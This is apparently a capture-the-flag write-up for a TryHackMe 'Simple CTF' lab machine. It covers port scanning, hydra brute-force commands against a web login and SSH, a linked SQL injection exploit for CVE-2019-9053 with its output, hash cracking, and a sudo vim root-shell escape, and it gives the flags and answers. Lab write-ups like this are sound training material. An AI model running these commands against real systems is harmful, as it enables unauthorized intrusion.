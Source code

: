 ```yaml
---
title: Simple CTF
date: 2022-05-07 17:00:00 +500
categories: [thm, easy-machines]
tags: [hash]    # TAG names should always be lowercase
---
```



### How many services are running under port 1000?

Let's run Nmap:

```terminal
nmap -p- --open -n -v 10.10.228.206
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

> 2

### What is running on the higher port?

We don't know which service is running on port 2222, so let's find out what it is and check the other ports while we're at it.

```terminal
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

> ssh

### What's the CVE you're using against the application?

now time to investigate the service, the FTP server accepted Anonymous login, and was only one file which was a note for Mitch a possible credential.

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

and we know that he uses the same password for everything and it's weak.

The next step was to search domains on the web page, that had only the default Apache screen. I found /robots.txt 

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

with a directory that was nothing, and a line of command of Linux? looks like mike is a user, maybe he's mitch.

the other directory that gobuster found was /simple a content management system like WordPress. It's the default after-installation page, it has a post made by mitch so now we know that is the user. And in the page says that the administration console is under 'http://yourwebsite.com/cmsmspath/admin' with a redirect link, Let's try to brute force with hydra since the note said that his password is weak.

set up the hydra command:

syntax 
``` terminal 
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* Login page
  /simple/admin/login.php
* Request Body
  username=^USER^&password=^PWD^&loginsubmit=Submit
* Error message
  User name or password incorrect

```terminal
hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.228.206 http-post-form "/simple/admin/login.php:username=^USER^&password=^PWD^&loginsubmit=Submit:User name or password incorrect"
```

it didn't find the password nor for mike, so at this point, I realized I have lost course, the question was what CVE is this application vulnerable to, so I looked up the cms version, and I found it's vulnerable to SQL injection, the first thing I did after this was to try some payloads like "'OR 1=1 --" but no luck.

> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?

> sqli

### What's the password?

The first thing after searching for the CMS version was an exploit written in Python, so I downloaded it, wasn't working at first because it looked like was written for python2, but running it with python2 it said it couldn't find a library, so I tried to make it work with python3, all I needed to do was adding () to the prints.

exploit: https://www.exploit-db.com/exploits/46635

this is the output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

this confirms mitch user, and we get a password, that looks like its encrypted, anyway, it tried and it didn't work, so now I was looking to crack it, I tried with hashcat but nothing was working, tried with the salt, without it, different modes, even with the wordlist that recommended the hint.

after this, I gave up on the site and tried to bruteforce ssh, since the note said he uses the same password.
*changing the port with the -s flag since the ssh service was on that port

```terminal
hydra -l mitch -P /usr/share/wordlists/best110.txt 10.10.228.206 -s 2222 ssh
```

and I got a password!


> secret

*the intended way was indeed using hashcat with a config I'm pretty sure I used but maybe I made a typo, who knows
```terminal
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/best110.txt
```

### Where can you login with the details obtained?

Now this feels strange because the answer is ssh but I actually got it from brute forcing this service and not the intended way of the vulnerability on the CMS page.

> ssh

### What's the user flag?

log into the ssh

```terminal
ssh mitch@10.10.228.206 -p 2222
```

the file is right there: user.txt

> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?

ls /home

> sunbath

### What can you leverage to spawn a privileged shell?

run sudo -l to see what I can run as sudo, and it's vim, I head over gtfobin pretty sure that this can spawn a root shell.

and indeed, with this command, I got instantly a root shell

```terminal
sudo vim -c ':!/bin/sh'
```

### What's the root flag?

cat /root/root.txt

> W3ll d0n3. You made it!

